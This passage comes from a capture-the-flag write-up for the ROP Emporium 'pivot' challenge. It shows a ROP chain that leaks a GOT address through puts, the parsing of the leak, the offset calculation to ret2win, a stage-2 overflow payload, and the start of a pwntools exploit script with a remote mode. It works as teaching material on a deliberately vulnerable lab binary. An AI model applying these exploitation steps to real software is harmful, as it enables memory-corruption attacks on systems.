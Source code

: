 ```
post_pivot_chain += p64(pop_rdi)
post_pivot_chain += p64(foothold_got)
post_pivot_chain += p64(puts_plt)
post_pivot_chain += p64(main)
```

## Returning to `ret2win()`
Now we have leaked the runtime address of `foothold_function()`:
```
b' Thank you!\nfoothold_function(): Check out my .got.plt entry to gain a foothold into libpivot\nj\t\xe04\x8d\x7f\npivot by ROP Emporium\nx86_64\n\nCall ret2win() from libpivot\nThe Old Gods kindly bestow upon you a place to pivot: 0x7f8d33c07f10\nSend a ROP chain now and it will land there\n>'
```
I parsed the address as follows:
```
leaked_foothold_addr_str = leak.split(b"libpivot")[1].split(b"\n")[1]
leaked_foothold_addr = u64(leaked_foothold_addr_str+ b"\x00\x00") # 2 bytes padding
```
This adds 2 bytes of padding, as `u64()` needs an 8 byte value, but the address was only 6 bytes.
Now we can simply look up the base addresses of `foothold_function()` and `ret2win()` to calculate the offset between the two:
```
foothold_base_addr = 0x10096a
ret2win_base_addr  = 0x100a81
calculated_offset = ret2win_base_addr - foothold_base_addr # 0x117
```
Now we know the offset, we can use the leaked address and add the offset to compute the runtime address of `ret2win()`.
All we have to do now, is simply overwrite the return pointer with this address to return into `ret2win()` and solve the challenge with a payload as follows:
```
leaked_ret2win_addr = leaked_foothold_addr + calculated_offset

stage2_payload = b"A" * 40
stage2_payload += p64(leaked_ret2win_addr)
```


The full script for this challenge is as follows:
```
#!/usr/bin/env python3

from pwn import *
import subprocess


def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


"""
notes:

"""

gdbscript = ""

breakpoints = [
    #    'breakrva 0xoffset',
    #"continue"
```